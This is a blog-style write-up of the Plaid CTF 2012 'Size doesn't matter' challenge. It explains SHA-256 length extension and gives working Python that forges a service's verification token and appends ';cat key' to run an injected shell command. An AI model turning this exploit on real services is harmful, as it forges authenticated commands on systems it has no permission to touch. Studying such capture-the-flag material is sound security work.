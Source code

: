 ```yaml
---
layout: post
title: Plaid CTF 2012 - "Size doesn't matter"
tags: <++>
year: 2012
month: 04
day: 30
published: true
summary: Solution for the PCTF 2012 puzzle "Size doesn't matter"
---
```


What an awesome CTF. The "Size Doesn't Matter" challenge read:

> Size Doesn't Matter [250] Password Guessing
>
>We found a pair of robot command execution services running at 23.20.239.9 ports 8888 and
>8889. Can you break into it?

The first service, when poked, asked for a command and answered with the following:

> Your verification string is valid for your command for 10 seconds: 60a33bc5e3be71846a60b2103e46cce3045e8380e04f9cd69e29c1c575284930
>
>secret: XXXXXXXX
>
>timecode: 12:32:3
>
>command: ls

The second service requested something of the form (after an update of the challenge):

> Please send command1;command2;command3::verification

One shall be enough. :-)

After playing a bit with it and seeing that the command input was stripped and filtered to
only allow letters, we started fiddling with the token. Looks like SHA-256 in length, so
assuming it is, it could be subject to a length extension attack.

Length extension attacks are basically a property of Merkle–Damgård construction. Think of
it this way: a SHA-2 digest is essentially the internal function state after consuming the
message, its padding (if any) plus the length in bits. If you wanted, you could grab it,
initialize a SHA-2 implementation with it and the length of the processed message thus
far, and continue hashing additional blocks. The end result is the digest of:

    [ Initial message | 0x80 | Padding | Length | Concatenated message ]

Now as the commands were fed to bash by a Python script, concatenating a semicolon plus a
`cat key` will presumably get us where we want. The good folks at
[vnsecurity](http://www.vnsecurity.net) had already provided an implementation I modified.
So off we go,

```python
#!/usr/bin/env python
import sha256 # PyPy's sha256 module works.
import struct

class shaext:
    """
    Performs SHA-256 length extension.
    """
    def __init__(self, origtext, keylen, origsig):
        self.origtext = origtext
        self.keylen = keylen
        self.origsig = origsig
        self.addtext = ''
        self.init()

    def init(self):
        count = (self.keylen + len(self.origtext)) * 8
        index = (count >> 3) & 0x3FL
        padLen = 120 - index
        if index < 56:
            padLen = 56 - index
        padding = '\x80' + '\x00' * 63

        self.input = self.origtext + padding[:padLen] + struct.pack('<Q', count)
        count = (self.keylen + len(self.input)) * 8
        self.impl = sha256.sha256()
        self.impl._sha['count_lo'] = count
        self.impl._sha['count_hi'] = 0

        _digest = self.origsig.decode("hex")
        self.impl._sha['digest'] = [x for x in struct.unpack("<IIIIIIII", _digest)]

    def add(self, addtext):
        self.addtext = self.addtext + addtext
        self.impl.update(addtext)

    def final(self):
        new_sig = self.impl.hexdigest()
        new_msg = self.input + self.addtext
        return (new_msg, new_sig)
```

and then we fiddle with the two services, like so:

```python
import socket, time
import shaext

IP='...'
PORT1=8888
PORT2=8889
COMMAND=''

while True:
    sock_verifier = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock_verifier.connect((IP,PORT1))
    COMMAND = raw_input('cmd? ')
    sock_verifier.send((COMMAND + '\x0a'))
    verification = sock_verifier.recv(256)
    sock_verifier.close()

    print(verification)
    token_begin = verification.find('seconds: ') + len('seconds: ')
    token_end   = verification.find('\x0a');
    token       = verification[token_begin : token_end]
    timecode    = verification[verification.find('timecode: ') + 10 : verification.find('timecode: ') + 17]

    extension = shaext.shaext(COMMAND, 8 + len(timecode), token)
    extension.add(';cat key')
    (new_msg, new_token) = extension.final()
    print('[+] New command: ' + new_msg)
    print('[+] New token  : ' + new_token)

    command_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    command_sock.connect((IP, PORT2))
    buf = new_msg + '::' + new_token + '\x0a'
    command_sock.send(buf)
    data_rcv2 = command_sock.recv(4096)
    print(data_rcv2)
    command_sock.close()
```

Which nets us the key:

> my_hash_is_longer_than_your_hash
